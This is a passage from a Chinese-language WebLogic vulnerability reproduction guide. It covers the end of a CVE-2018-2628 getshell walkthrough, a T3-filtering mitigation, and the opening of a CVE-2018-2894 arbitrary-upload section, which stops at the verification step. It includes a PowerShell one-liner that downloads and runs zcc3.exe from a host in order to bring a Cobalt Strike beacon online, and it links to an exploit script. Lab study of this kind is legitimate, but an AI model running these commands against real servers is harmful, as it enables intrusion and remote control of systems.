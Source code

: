 ##### 漏洞复现

windows-getshell，使用 k8weblogicGUI.exe

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDAqYzKvB4HSmpf39zJP4Towic5rB7yG7ZOQicxybISZoBicVichO15C0uzg/640?wx_fmt=png)image-20210810163031055

这里出了点问题，文件名改成了 1.jsp

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDiciavwbyjO7kG1TcBK2KysoEQISx7WJ65Emiap6EkUib8g82QVtUtq4Xdg/640?wx_fmt=png)image-20210810164738168

用脚本连接得到交互 shell, 脚本运行需 python2 环境

脚本链接：https://github.com/jas502n/CVE-2018-2628

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaD1qYj2CohichL677uT3ftcUrgtqJkDfVZCtOb9eicOdafzJ3ARIibPSfog/640?wx_fmt=png)image-20210810165228766

在此处上线 cs，用的依旧是上面的马，改名 zcc3.exe

```
powershell -Command (new-object System.Net.WebClient).DownloadFile('http://192.168.10.65/zcc3.exe','zcc3.exe');start-process zcc3.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDgN5S8MIQUqXk0K7k7h0foHH5MD2zZC4kOyeibrRFztLDoiaJJr5cwdfg/640?wx_fmt=png)image-20210810170001387![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDUSbKKQ5mic1wWqURvgw7yOWjhYNrIh2yevNiaT1zOqia3gEiaibHBmDlgpA/640?wx_fmt=png)image-20210810170039655

##### 安全防护

过滤 t3 协议，再域结构中点击 安全 -> 筛选器，选择筛选器填：

```
weblogic.security.net.ConnectionFilterImpl
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDCMFbHG1JLg33CfGl3tddCm4FTaIfOGibNzDh2sdmiaCCnuSHjVjIiawXA/640?wx_fmt=png)image-20210813140332501

保存后重启 weblogic 即可。

#### 5.WebLogic 未授权访问漏洞（CVE-2018-2894）

##### 漏洞简介

Weblogic Web Service Test Page 中有两个未授权页面，可以上传任意文件。但是有一定的限制，该页面在开发模式下存在，在生产模式下默认不开启，如果是生产模式，需要登陆后台进行勾选启动 web 服务测试页，如下图。

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDo7puLukPmt2RIm5Snqzh9zX2bibwKXcTibe6vRloibpvQUvf9icGWciaV2w/640?wx_fmt=png)image-20210813145148182

##### 影响版本

```
10.3.6
12.1.3
12.2.1.2
12.2.1.3
```

##### 验证漏洞
